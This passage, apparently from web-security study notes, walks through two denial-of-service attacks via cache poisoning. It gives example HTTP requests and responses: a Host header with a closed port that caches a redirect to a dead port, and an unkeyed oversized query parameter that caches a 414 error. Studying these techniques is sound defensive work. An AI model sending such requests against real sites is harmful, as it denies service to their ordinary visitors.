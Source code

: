 In the above request <mark class="hltr-pink">CloudFlare</mark>  is being used(Identified by `CF-Cache-Status` header). So here we can see that the requesting is getting redirected to `/en`. To attempt DOS here we will change the port of `redacted.com` like `redacted.com:6666` which is a closed port.

```
GET /?doremembercachebuster HTTP/1.1   
Host: redacted.com:6666      

HTTP/1.1 301 Moved Permanently   
Location: https://redacted.com:6666/en   
CF-Cache-Status: MISS
```

Now we can see that we are being redirected to port `6666` which is a dead port. Now we will send the request once again to Cache it.

```
GET /?doremembercachebustedfdfhjfjdgdddhr HTTP/1.1   
Host: redacted.com:6666      

HTTP/1.1 301 Moved Permanently   
Location: https://redacted.com:6666/en   
CF-Cache-Status: HIT
```

We can see that our response is successfully cached `CF-Cache-Status: HIT`. If anyone visits this than he/she will be redirected to a dead port which will cause <mark class="hltr-green">Denial Of Service</mark>

***

**Example of DOS (4th) via Cache Poisoning:**

This type of attack is possible when our parameter values are ==unkeyed==. 

```
GET /login?x=hsdjsdhjsdsdhjh HTTP/1.1   
Host: www.lol.com   
Origin: https://dontpoisoneveryone/      

HTTP/1.1 301 Moved Permanently   
Location: /login/?x=abc
X-Cache: HIT
```

Here our parameter `?x=abc` is not included in the <mark class="hltr-purple">Cache Key</mark> and our response is being cached, we can convert it into an interesting `DOS`. we will change `?x=abc` to `?x=verylong-data.......` so that the `Request Query` becomes reach its maximum length and the one extra `/` added in `Location: /login/?x=abc` makes it one byte more larger and the request will be thus blocked.

```
GET /login?x=abc HTTP/1.1   
Host: www.lol.com   
Origin: https://dontpoisoneveryone/      

HTTP/1.1 414 Request-URI Too Large   
CF-Cache-Status: MISS
```
